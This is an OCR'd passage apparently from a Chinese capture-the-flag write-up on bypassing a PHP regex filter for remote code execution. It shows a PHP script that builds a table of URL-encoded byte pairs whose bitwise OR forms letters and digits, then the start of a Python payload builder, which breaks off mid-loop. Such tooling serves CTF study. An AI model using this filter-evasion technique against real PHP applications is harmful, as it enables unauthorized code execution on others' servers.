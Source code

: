  构造：

  复制

  ```
  <?php
  
  /* author yu22x */
  
  $myfile = fopen("or_rce.txt", "w");
  $contents="";
  for ($i=0; $i < 256; $i++) { 
  	for ($j=0; $j <256 ; $j++) { 
  
  		if($i<16){
  			$hex_i='0'.dechex($i);
  		}
  		else{
  			$hex_i=dechex($i);
  		}
  		if($j<16){
  			$hex_j='0'.dechex($j);
  		}
  		else{
  			$hex_j=dechex($j);
  		}
  		$preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
  		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
  					echo "";
      }
    
  		else{
  		$a='%'.$hex_i;
  		$b='%'.$hex_j;
  		$c=(urldecode($a)|urldecode($b));
  		if (ord($c)>=32&ord($c)<=126) {
  			$contents=$contents.$c." ".$a." ".$b."\n";
  		}
  	}
  
  }
  }
  fwrite($myfile,$contents);
  fclose($myfile);
  ```

  复制

  ```
  # -*- coding: utf-8 -*-
  
  # author yu22x
  
  import requests
  import urllib
  from sys import *
  import os
  def action(arg):
     s1=""
     s2=""
     for i in arg:
         f=open("or_rce.txt","r")
         while True:
             t=f.readline()
             if t=="":
                 break
  ```